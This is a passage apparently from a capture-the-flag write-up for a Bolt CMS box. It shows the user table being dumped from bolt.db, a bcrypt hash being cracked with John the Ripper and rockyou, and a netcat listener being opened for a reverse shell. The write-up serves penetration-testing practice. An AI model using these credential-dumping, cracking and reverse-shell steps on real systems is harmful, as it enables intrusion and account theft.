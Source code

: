 Open database:

![](https://i.imgur.com/Fajrmfg.png)

This contains a lot of tables:

![](https://i.imgur.com/fcS9AJM.png)

We list the bolt user database, like this:

![](https://i.imgur.com/WV9wdwV.png)

We see two users, the admin we already own, the other one is a wild one. We also see another IP address, 192.168.100.1 (note to self)

We copy the hash and save it to a file. Then run it through john the ripper, using the infamous "rockyou wordlist

john hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

Using this password, we try to su as the user wileec. This works, and we should find our first flag

```
www-data@Erit:/var/www/html/public/files$ cd ../../app/database
cd ../../app/database
www-data@Erit:/var/www/html/app/database$ ls
ls
bolt.db
www-data@Erit:/var/www/html/app/database$ sqlite3 bolt.db
sqlite3 bolt.db
.tables
bolt_authtoken          bolt_field_value        bolt_pages            
bolt_blocks             bolt_homepage           bolt_relations        
bolt_content_changelog  bolt_log                bolt_showcases        
bolt_cron               bolt_log_change         bolt_taxonomy         
bolt_entries            bolt_log_system         bolt_users            
select * from bolt_users
;
1|admin|$2y$10$id08BrqKsH9TtviCH4Q9q.W6nF38j2RpODkGajLmg77cMCWBNFMYG||0|a@a.com|2022-10-09 18:29:06|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]


┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ echo '$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.' > hash
                                                                                                             
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snickers         (?)     
1g 0:00:00:06 DONE (2022-10-09 15:01) 0.1547g/s 78.01p/s 78.01c/s 78.01C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


doing again but with pty

                                                                                                             
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ rlwrap nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
```